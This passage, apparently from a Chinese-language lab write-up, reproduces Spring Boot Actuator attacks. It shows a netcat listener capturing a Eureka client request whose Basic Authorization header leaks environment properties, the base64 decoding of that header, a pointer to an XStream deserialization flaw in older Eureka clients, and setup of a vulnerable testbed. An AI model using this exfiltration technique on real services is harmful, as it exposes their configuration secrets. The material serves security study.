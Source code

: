 `Authorization: Basic MzgzNDY6bnVsbA==`


base64 解码得到

```
root@kali:/tmp# echo MzgzNDY6bnVsbA== |base64 -d
38346:null
```
和上面的 pid 信息一样


同样 获取 `user.country`参数,步骤也一样

结果:
```
root@kali:/tmp# nc -lvvp 2555
listening on [any] 2555 ...
connect to [10.20.24.191] from kali [10.20.24.191] 38994
GET /xstream/apps/ HTTP/1.1
Accept: application/json
DiscoveryIdentity-Name: DefaultClient
DiscoveryIdentity-Version: 1.4
DiscoveryIdentity-Id: 10.20.24.191
Accept-Encoding: gzip
Host: 10.20.24.191:2555
Connection: Keep-Alive
User-Agent: Java-EurekaClient/v1.4.11
Authorization: Basic VVM6bnVsbA==

 sent 0, rcvd 310
```
base64 解码得到
```
root@kali:/tmp# echo VVM6bnVsbA== |base64 -d
US:null

```

Ps: 如果您很幸运在目标类路径中具有Eureka-Client <1.8.7（通常包含在Spring Cloud Netflix中），则可以利用其中的XStream反序列化漏洞。

例如: `User-Agent: Java-EurekaClient/v1.4.11`


# SpringBoot_Actuator_RCE 漏洞复现 (二)


## 0x01 环境搭建

`git clone https://github.com/veracode-research/actuator-testbed`

启动

```
mvn install
或
mvn spring-boot:run
```

